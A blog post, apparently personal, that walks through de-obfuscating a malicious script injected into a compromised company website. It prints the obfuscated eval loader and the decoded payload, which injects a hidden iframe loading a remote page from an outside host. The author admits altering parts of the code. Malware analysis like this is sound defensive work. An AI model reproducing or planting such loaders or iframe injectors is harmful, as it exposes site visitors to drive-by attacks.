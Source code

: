 Title: Decoding found malware
URL: decoding-found-malware
Blurb: Video test of screen recording while de-obfuscating some malware found at work
Tags: JavaScript

Early last year (2013), the main website at work had been compromised and (amongst other things) a malicious script had been inserted. I was able to grab a copy of the scipt, albeit second hand and will go through how it works.

This is how I received the code (or I initially mucked around with it and left it like this, I can not remember).

```
:::javascript
zz='val';
e=this[fromCharCode["substr"](11)+zz];    




zz='val';
ss=[];

e=this.fromCharCode(substr(11)+'val');

n=&quot;3.5$3.5$51.5$50$15$19$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$19.5$60.5$5.5$3.5$3.5$3.5$51.5$50$56$47.5$53.5$49.5$56$19$19.5$28.5$5.5$3.5$3.5$61.5$15$49.5$53$56.5$49.5$15$60.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$58.5$56$51.5$57$49.5$19$16$29$51.5$50$56$47.5$53.5$49.5$15$56.5$56$48.5$29.5$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$15$58.5$51.5$49$57$51$29.5$18.5$23.5$23$18.5$15$51$49.5$51.5$50.5$51$57$29.5$18.5$23.5$23$18.5$15$56.5$57$59.5$53$49.5$29.5$18.5$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$28$51$51.5$49$49$49.5$54$28.5$55$54.5$56.5$51.5$57$51.5$54.5$54$28$47.5$48$56.5$54.5$53$57.5$57$49.5$28.5$53$49.5$50$57$28$23$28.5$57$54.5$55$28$23$28.5$18.5$30$29$22.5$51.5$50$56$47.5$53.5$49.5$30$16$19.5$28.5$5.5$3.5$3.5$61.5$5.5$3.5$3.5$50$57.5$54$48.5$57$51.5$54.5$54$15$51.5$50$56$47.5$53.5$49.5$56$19$19.5$60.5$5.5$3.5$3.5$3.5$58$47.5$56$15$50$15$29.5$15$49$54.5$48.5$57.5$53.5$49.5$54$57$22$48.5$56$49.5$47.5$57$49.5$33.5$53$49.5$53.5$49.5$54$57$19$18.5$51.5$50$56$47.5$53.5$49.5$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$56.5$56$48.5$18.5$21$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$19.5$28.5$50$22$56.5$57$59.5$53$49.5$22$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$29.5$18.5$51$51.5$49$49$49.5$54$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$55$54.5$56.5$51.5$57$51.5$54.5$54$29.5$18.5$47.5$48$56.5$54.5$53$57.5$57$49.5$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$53$49.5$50$57$29.5$18.5$23$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$57$54.5$55$29.5$18.5$23$18.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$58.5$51.5$49$57$51$18.5$21$18.5$23.5$23$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$51$49.5$51.5$50.5$51$57$18.5$21$18.5$23.5$23$18.5$19.5$28.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$22$47.5$55$55$49.5$54$49$32.5$51$51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split(&quot;$&quot;);

for(i=0; i &lt; 585; i++){
    ss=ss+String.fromCharCode(2*(1+1*n[i]));
}

e(ss);
```

The code itself is quite straightforward and relies on some fun obfuscation to (presumably) get around detection.

`51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split("$");`


Is simply a "$" delimited list which contains a bunch of numbers of which about half end in .5.

```
:::javascript
for(i=0; i &lt; 585; i++){
    ss=ss+String.fromCharCode(2*(1+1*n[i]));
}
```

This is the fun bit: for each number in the list, (starting from the inside out) multiply by one (`1*n[i]`) doing nothing and then add 1 (5.5 becomes 6.5) and then multiply that by 2. Multiplying by two removes the .5, and so we are guarenteed to integers which is useful as we then run these through the function fromCharCode (this is a messed up part, I think b/c I mucked it up when it was discovered) which converts said integers into their unicode representations. For Unicode representations that look (in this case) like code. Code which can be eval()'d (made from the first couple lines via simple concatenation and also mucked up by me). We end up with:

```
:::javascript

if (document.getElementsByTagName('body')[0]){
    iframer();
} else {
    document.write("&lt;iframe src='http://mqyenu.dns05.com/d/404.php?go=1' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'&gt;&lt;/iframe&gt;");
}
function iframer(){
    var f = document.createElement('iframe');f.setAttribute('src','http://mqyenu.dns05.com/d/404.php?go=1');f.style.visibility='hidden';f.style.position='absolute';f.style.left='0';f.style.top='0';f.setAttribute('width','10');f.setAttribute('height','10');
    document.getElementsByTagName('body')[0].appendChild(f);
}
```

Which inserts an invisible IFrame and runs whatever was returned by the (now defunct) page.

I did this because I wanted to test the screen recording software that comes with Cinnamon I recorded playing around with this. Enjoy.

<video width="640" height="360" controls data-poster="https://assets.themetacity.com/video/foundmalwaredecodeposter.svg">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.webm" type='video/webm;codecs="vp8, vorbis"' data-fullscreen="true">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.mp4" type='video/mp4;codec="avc1"' data-fullscreen="true">
</video>
